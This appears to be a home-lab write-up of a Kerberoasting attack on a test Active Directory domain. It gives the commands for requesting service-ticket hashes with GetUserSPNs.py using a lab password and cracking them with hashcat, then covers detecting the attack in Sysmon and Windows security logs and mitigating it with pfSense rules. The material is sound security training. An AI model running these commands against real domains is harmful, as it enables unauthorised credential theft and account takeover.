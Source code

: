 # Active Directory Attack Playbook (Kerberos-based SPN Extraction and Credential Compromise)

## **Overview**

- **Target:** Active Directory Domain Controller (within the soc.lab domain)
   - IP Address: 192.168.10.10
   - Domain: SOC.LAB
   - 
- **Attacker:** Kali 
   - IP Address: 192.168.20.30
## **Objective** 
The objective of this attack was to enumerate and extract Service Principal Names (SPNs) from the Active Directory environment and attempt to crack the Kerberos TGS hashes to gain unauthorized access to domain accounts.
Following the other attacks, we are already know the credentials from an User and the Active Directory Domain.

## Attack Execution Timeline:

- Checked that Kerberos (port 88) is open:
```bash
nc -vz 192.168.10.10 88
```
- Update the default DNS ip to point directly to the Domain Controller.

- Run GetUserSPNs.py from the mpacket toolkit to request SPNs and attempt Kerberos TGS hash extraction:
```bash
python3 GetUserSPNs.py SOC.LAB/labadmin:Root1234! -request
```
Output:

![hash](https://github.com/user-attachments/assets/25122eab-7eb9-4de7-a62d-2ceeda7e50c9)

- After that I cracked the Kerberos TGS Hash using hashcat with rockyou.txt, and saved on a cracked.txt file:
```bash
hashcat -m 13100 spn_hash.txt /usr/share/wordlists/rockyou.txt --force -o cracked.txt
```



## **Monitoring Windows Logs**

I started watching Sysmon Logs Analysis and identified multiple Event ID 3 entries in Sysmon logs, which makes it suspisious, knowing its coming from the same IP, and from external zone (DMZ): 

- All connections originated from IP 192.168.10.10, targeting 192.168.20.30.

- Different ephemeral ports were used, suggesting automated scanning or even communication.

![multipleSysmonlogs](https://github.com/user-attachments/assets/01ab753c-f8f0-42d1-8882-62f2a652937a)



With that, I went through Windows Logs Security, and found multiple found a large number of **Event ID 4769 – Kerberos Service Ticket Request**, from the same source:

And as we can see in the screenshots output from the logs, the same IP: 192.168.20.30 requested multiple Kerberos Service Tickets (Event ID 4769) for various user accounts in the SOC.LAB domain. This pattern of activity suggests the use of a **Kerberoasting attack**, where the attacker queries the Service Principal Names (SPNs) associated with these accounts to obtain encrypted TGS (Ticket Granting Service) hashes, which we already know he did.

And finally, right after the last Kerberos Service Ticket Request, we see an Event ID 4634 – Logoff, from the user labadmin, so with that, we know whose password was first compromised to successfully request all this content.

## **Firewall Rules on pfSense to Mitigate this:**
1- Block Unauthorized Kerberos Requests:
  Screenshot da rule no pfsense....

  This rule blocks any Kerberos traffic (port 88) from devices that are not domain controllers, which prevents unauthorized users from interacting with the Kerberos service and reduces the risk of Kerberoasting.

2- Limit External and Internal LDAP Queries:

Screenshot da rule.......

This prevents attackers from using LDAP enumeration tools (like GetUserSPNs.py), a well knowed script, to extract Service Principal Names. LDAP is only needed for trusted systems—blocking it for regular users reduces exposure, like we've just seen.

Note: In this experiment, CrowdSec was disabled to allow this action to proceed.
